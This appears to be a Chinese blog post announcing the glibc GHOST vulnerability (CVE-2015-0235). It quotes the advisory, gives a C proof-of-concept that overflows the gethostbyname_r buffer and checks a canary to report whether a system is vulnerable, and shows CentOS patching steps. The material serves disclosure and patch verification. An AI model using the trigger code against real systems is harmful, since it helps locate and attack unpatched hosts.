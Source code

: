 ```yaml
---
layout: post
title: CVE-2015-0235缓冲区溢出漏洞漏洞预警
categories: [security]
tags: [Linux,glibc]
---
```


####漏洞详情

    A heap-based buffer overflow was found in glibc's
    __nss_hostname_digits_dots() function, which is used by the gethostbyname()
    and gethostbyname2() glibc function calls. A remote attacker able to make
    an application call either of these functions could use this flaw to
    execute arbitrary code with the permissions of the user running the
    application. (CVE-2015-0235)

    代码审计公司Qualys的研究人员在glibc库中的__nss_hostname_digits_dots()
    函数中发现了一个缓冲区溢出的漏洞，这个bug可以经过 gethostbyname*()函数被本地或者远程的触发。

####漏洞POC

    #include <netdb.h>
    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    #include <errno.h>
    #define CANARY "in_the_coal_mine"
    struct {
    char buffer[1024];
    char canary[sizeof(CANARY)];
    } temp = { "buffer", CANARY };
    int main(void) {
    struct hostent resbuf;
    struct hostent *result;
    int herrno;
    int retval;
    /*** strlen (name) = size_needed - sizeof (*host_addr) - sizeof (*h_addr_ptrs) - 1; ***/
    size_t len = sizeof(temp.buffer) - 16*sizeof(unsigned char) - 2*sizeof(char *) - 1;
    char name[sizeof(temp.buffer)];
    memset(name, '0', len);
    name[len] = '\0';
    retval = gethostbyname_r(name, &resbuf, temp.buffer, sizeof(temp.buffer), &result, &herrno);
    if (strcmp(temp.canary, CANARY) != 0) {
        puts("vulnerable");
        exit(EXIT_SUCCESS);
    }
    if (retval == ERANGE) {
        puts("not vulnerable");
        exit(EXIT_SUCCESS);
    }
    puts("should not happen");
    exit(EXIT_FAILURE);
    }


####漏洞修复

主机：Centos 社区已经有了update见图
![](https://40.media.tumblr.com/feba793cc3f61d0479480f7b81c12c0f/tumblr_nivgs1OLCg1r68ev5o1_540.png)

修复后执行POC
![](https://41.media.tumblr.com/62edfec675969ac802dc39ff4e607c7c/tumblr_nivgs1OLCg1r68ev5o2_400.png)


`官方也给出了提示：Before applying this update, make sure all previously released errata
relevant to your system have been applied.
生产上应当有个缓冲期，毕竟exp还没发出`


####引用
[url1](http://bobao.360.cn/learning/detail/224.html)
[url2](http://www.openwall.com/lists/oss-security/2015/01/27/9)

